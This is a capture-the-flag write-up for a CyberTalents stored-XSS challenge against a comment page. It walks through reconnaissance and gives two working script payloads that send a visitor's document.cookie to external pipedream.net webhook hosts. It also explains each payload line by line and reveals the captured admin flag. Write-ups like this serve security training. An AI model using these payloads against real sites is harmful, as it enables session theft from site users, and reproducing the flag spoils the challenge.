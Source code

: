 # Based on the following
## X Corp
https://cybertalents.com/challenges/web/x-corp
## Cross-site Scripting (XSS)


# Information Gathering

test a company comment page, Best Sec Company have released a comment page, they are afraid that some one send a comment can steal the admin session

The company has 2 main pages
- http://45.84.138.178:8080/2023/comments.php
- http://45.84.138.178:8080/2023/comments_test.php

## Locate robots.txt

after locating robots.txt it showed that

```
User-agent: *
Allow: /wp-content/cache/
Disallow: /cld-mgmt
```

## Identify Versions
### Reveal website technology stacks and what the website is built with

![](https://i.imgur.com/AKYXBfh.png)

## Comment Page Structure

![](https://i.imgur.com/QLzhZde.png)

### After Sending

By checking comments_test it shows that the response is stored inside 

```html
<br>
```


![](https://i.imgur.com/afW9Pow.png)


![](https://i.imgur.com/92bOxtk.png)

![](https://i.imgur.com/w7ismCM.png)


![](https://i.imgur.com/bb05sZ1.png)
 return this ^

![](https://i.imgur.com/sW992CN.png)

```html
<script>document.write('<img src="https://eo21hsr1dp5yprs.m.pipedream.net?c='+document.cookie+'" />');</script>

This script uses `document.write` to dynamically create an `<img>` element with its `src` attribute set to a remote server. It appends the user's cookie information to the URL as a query parameter. This essentially loads an image from the specified URL, triggering a request to the server with the user's cookie information.
```


```html
<script> fetch('https://eo7gq40b4500y1p.m.pipedream.net', { method: 'POST', mode: 'no-cors', body:document.cookie }); </script>

This is stored XSS.

This script sends the user's cookies to an external server ('[https://eo7gq40b4500y1p.m.pipedream.net](https://eo7gq40b4500y1p.m.pipedream.net/)') using a POST request. The server at that endpoint is a set up to log the stolen cookie. This type of attack allows the attacker to capture sensitive information, potentially leading to unauthorized access to the victim's account.
```
Fetch is an API call it sends an HTTP request to the URL by using the following:
- `method: 'POST'`: It specifies that the HTTP request should be a POST request to post data to server.
- `mode: 'no-cors'`: It indicates that the request should be made in a no-cors mode, which is commonly used in XSS attacks to bypass some security mechanisms. This mode restricts the ability to read the response from the target server. 
- `body: document.cookie`: The `document.cookie` part retrieves the cookies associated with the current document (the user's browser).
RequestBin lets you create a webhooks URL and send data to it to see how it's recognized.

```
Reflected XSS arises when an application takes some input from an HTTP request and embeds that input into the immediate response in an unsafe way. With stored XSS, the application instead stores the input and embeds it into a later response in an unsafe way.
```

![](https://i.imgur.com/fJlhelh.png)



```html
admin_flag=Th1s_1%40st_Tasc_89590412984; test=Your%20Test%20is%20Working
admin_flag=Th1s_1@st_Tasc_89590412984;test=Your Test is Working
```


![](https://i.imgur.com/zTLUh9N.png)




# Objective

- [x] Webhook URL
- [x] Wait for event admin cookie
- [x] Steal admin session












---
#xss #owasp_checklist #requestbin #flag #cookie #admincookie
Web App Pen Testing Checklist
https://blog.securelayer7.net/web-application-penetration-testing-checklist/
X Corp Practice Based Task 4
https://cybertalents.com/challenges/web/x-corp
Penetration Testing Methodologies
https://owasp.org/www-project-web-security-testing-guide/latest/3-The_OWASP_Testing_Framework/1-Penetration_Testing_Methodologies
Portswigger Steal Cookie Via XSS
https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies